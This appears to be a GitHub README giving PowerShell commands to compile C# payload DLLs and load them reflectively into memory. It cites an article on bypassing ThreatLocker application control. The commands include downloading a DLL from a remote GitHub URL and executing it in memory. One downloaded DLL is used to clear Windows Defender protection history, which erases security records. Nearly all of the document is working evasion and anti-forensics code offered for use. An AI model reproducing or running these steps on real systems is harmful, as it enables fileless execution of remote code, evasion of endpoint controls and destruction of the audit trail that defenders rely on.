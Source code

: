 # Reflectively load C# DLLs via PowerShell  

Based on https://ruptura-infosec.com/hack-of-the-month/bypassing-threatlocker-with-powershell/  

Add C Sharp Compiler to path
```powershell  
[System.Environment]::SetEnvironmentVariable("Path", $env:Path + ";C:\Program Files (x86)\Microsoft Visual Studio\2019\BuildTools\MSBuild\Current\Bin\Roslyn\", [System.EnvironmentVariableTarget]::Machine)
```  

Compile DLL from .cs    
```powershell  
csc /target:library /out:payload.dll test.cs
csc /target:library /out:get-sec-history.dll get-sec-history.cs
csc /target:library /out:clear-sec-history.dll clear-sec-history.cs
```  

Load DLL reflectively in PowerShell POC
```powershell  
$currentDir = Get-Location
$bytes = [IO.File]::ReadAllBytes("$currentDir\payload.dll")
$assembly = [System.Reflection.Assembly]::Load($bytes)
$instance = $assembly.CreateInstance("ProgramNamespace.Program")
$instance.RunO()
```  

Load DLL method 1 (Create instance from local file)  
```powershell  
# Get the current directory
$currentDir = Get-Location

# Load the DLL from the current directory
$bytes = [IO.File]::ReadAllBytes("$currentDir\get-sec-history.dll")
$assembly = [System.Reflection.Assembly]::Load($bytes)

# Create an instance of DefenderHistory class and invoke the method
$instance = $assembly.CreateInstance("SecurityTools.DefenderHistory")
$output = $instance.GetProtectionHistory()
Write-Output $output
```  

Load DLL method 2 (Create instance from web request)  
```powershell  
# URL of the DLL on the web server
$url = "https://github.com/timsonner/load-cs-dll-from-powershell/raw/refs/heads/master/get-sec-history.dll"

# Download the DLL as bytes
$bytes = (New-Object Net.WebClient).DownloadData($url)

# Load the assembly directly from the byte array
$assembly = [System.Reflection.Assembly]::Load($bytes)

# Create an instance of the DefenderHistory class
$instance = $assembly.CreateInstance("SecurityTools.DefenderHistory")

# Invoke the GetProtectionHistory method
$output = $instance.GetProtectionHistory()

# Display the output
Write-Output $output
```  

Clear security events (must be run in admin powershell aka `Start-Process powershell -Verb runas`)  
```powershell  
# URL of the DLL on the web server
$url = "https://github.com/timsonner/load-cs-dll-from-powershell/raw/refs/heads/master/clear-sec-history.dll"

# Download the DLL as bytes
$bytes = (New-Object Net.WebClient).DownloadData($url)

# Load the assembly directly from the byte array
$assembly = [System.Reflection.Assembly]::Load($bytes)

# Create an instance of the DefenderHistory class
$instance = $assembly.CreateInstance("SecurityTools.DefenderHistory")

if ($null -eq $instance) {
    Write-Output "Failed to create an instance. Verify the namespace and class name. Are you running from Administrator PowerShell?????"
    return
}

# Invoke the ClearProtectionHistory method
$output = $instance.ClearProtectionHistory()

# Display the output
Write-Output $output 

```  
